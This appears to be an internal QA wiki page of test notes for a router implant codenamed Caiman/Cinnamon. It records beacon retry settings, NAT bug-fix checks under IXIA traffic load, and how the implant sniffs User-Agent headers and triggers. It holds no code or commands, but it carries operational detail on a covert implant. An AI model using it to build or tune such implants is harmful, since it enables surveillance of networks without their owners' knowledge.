- Verify beacon failure retries
- With CMNCaiman (Codename)? 5.0.3 installed, set beacon retries to 2 - observed expected number of syn packets
- Increased beacon retires to 4 and reinstalled CMNCaiman (Codename)? - observed correct number of beacon packets, and also observed that the max beacon failures was reached
- Verify PAT issue fix in 5.0.3
- Reloaded 881 Bottom to start with a clean device
- Installed CMNCaiman (Codename)? 5.0.3 norb with 1 beacon retry, 10 max beacons
- Rebuilt and uploaded both modules to DUT
[Modules]
Active Modules: 6
Module Version
0 5.0.3
1 5.0.3
2 5.0.3
3 5.0.0
4 5.0.3
5 5.0.0- Started IXIA test up and let it run for 5 minutes at 1M
- Was able to successfully beacon afterward 10 times.
- Reloaded device
- Ran five minute IXIA test, then installed CMN
- Was able to successfully beacon 10 times.
- Ran 20 minute IXIA test - was able to successfully beacon both during and after test
- Beacons during IXIA traffic with about 104k active nat translations and 10M of traffic come in slowly, but they are successful
- Verify Bug 497 (Null pointer dereference when "Host:" string not present in User Agent sniffed by Cinnamon)
- Bakery provided python files to test, the cases are:
- test1.py - send User-Agent without Host: field present
- test2.py - send User-Agent in two packets
- test3.py - send User-Agent that is missing end of header sequence ("\r\n\r\n")
- test4.py - User #76524 wrote; use headers from Chrome and make UA string over 1024 bytes long to test Cinnamon size constraints
- None of the test cases result in Cinnamon detecting traffic and beaconing. I would expect test2.py to work, but the mitigation Bakery implemented is to ignore the packets. **Should check on Bugzilla ticket to fix this in future release
- Tested large HTTPHypertext Transfer Protocol Header - the max supported by Cinnamon is 1024 bytes. Using test4.py, Cinnamon won't beacon. Web servers will accept between 4KB and 16KB size headers. **Limitation**
- Using these test cases, and then using wget traffic results in Cinnamon beaconing
- Let 881 sit overnight. Sent trigger, no beacon received. Sent test4.py traffic. Triggered, and then beaconed. Looks like Cinnamon will use it for passive internet detection, but not save GET headers if they're too large. Using saved headers from last wget it sniffed. Is this desireable?
- Bakery provided python files to test, the cases are:
- IXIA testing with 5.0.3 - re-test of PAT bug fix now that IXIA connections have been fixed
- Reloaded DUTDevice Under Test to start with clean device
- Kicked off IXIA traffic at 5M for 10 minutes to generate ip nat translations
- Installed CMNCaiman (Codename)? - nat tx at 38k when CMNCaiman (Codename)? installed
- Attempted to beacon - rcvd inital beacon and 20 subsequent beacon attempts, while 38k tx active
- Testing Debian 8
- Built new Cinnamon-ICON3 VM, Debian 8.1 - 172.20.12.33
- Installed IACInternational Access Code 4.1
Attachments:
{kind=link}
{kind=link}
Previous versions:
| 1 empty | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 | 21 | 22 | 23 | 24 | 25 | 26 | 27 | 28 | 29 | 30 | 31 | 32 | 33 | 34 | 35 | 36 | 37 | 38 | 39 | 40 | 41 | 42 | 43 | 44 | 45 | 46 | 47 | 48 | 49 | 50 | 51 | 52 | 53 | 54 | 55 | 56 | 57 | 58 | 59 | 60 | 61 | 62 | 63 | 64 | 65 | 66 | 67 | 68 | 69 | 70 | 71 | 72 | 73 | 74 [Xetron] | 75 [Xetron] | 76 [Xetron] | 77 [Xetron] | 78 [Xetron] | 79 [Xetron] | 80 [Xetron] | 81 [Xetron] | 82 [Xetron] | 83 [Xetron] | 84 [Xetron] | 85 [Xetron] | 86 [Xetron] | 87 [Xetron] | 88 [Xetron] | 89 [Xetron] | 90 [Xetron] | 91 [Xetron] | 92 [Xetron] | 93 [Xetron] | 94 [Xetron] | 95 [Xetron] | 96 [Xetron] | 97 [Xetron] | 98 [Xetron] | 99 [Xetron] | 100 [Xetron] | 101 [Xetron] | 102 [Xetron] | 103 [Xetron] | 104 [Xetron] | 105 [Xetron] | 106 [Xetron] | 107 [Xetron] | 108 [Xetron] | 109 [Xetron] | 110 [Xetron] | 111 [Xetron] | 112 [Xetron] | 113 [Xetron] | 114 [Xetron] | 115 [Xetron] | 116 [Xetron] | 117 [Xetron] | 118 [Xetron] | 119 [Xetron] | 120 [Xetron] | 121 [Xetron] | 122 [Xetron] | 123 [Xetron] | 124 [Xetron] | 125 [Xetron] | 126 [Xetron] | 127 [Xetron] | 128 [Xetron] | 129 [Xetron] | 130 [Xetron] | 131 [Xetron] | 132 [Xetron] | 133 [Xetron] | 134 [Xetron] | 135 [Xetron] | 136 [Xetron] |